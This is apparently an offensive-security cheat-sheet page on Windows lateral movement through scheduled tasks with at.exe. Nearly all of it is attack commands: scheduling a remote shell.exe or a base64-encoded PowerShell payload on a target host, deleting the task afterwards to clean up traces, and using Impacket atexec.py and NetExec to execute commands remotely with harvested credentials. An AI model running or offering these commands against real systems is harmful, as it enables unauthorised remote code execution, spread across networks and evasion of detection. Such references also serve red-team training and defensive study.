 # At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Living off the Land

### 1.1 - Syntax

```
C:\> at.exe <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

### 1.2 - Usage

- Retrieve local time in order to create a schedule task.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command [-ComputerName <IP>] -ScriptBlock { Get-Date }
```

- Create a schedule task.

```
C:\> at.exe [\\<IP>] <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at.exe [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

- Cleanup the schedule by querying the current computer and then delete the identifier number.

```
C:\> at.exe [\\<IP>]

C:\> at.exe [\\<IP>] <id> /delete /yes
```

## 02 - Impacket

`$ atexec.py <username>:<password>@<IP>`

## 03 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -x "<command>"

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -X "<cmdlet>"
```

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)
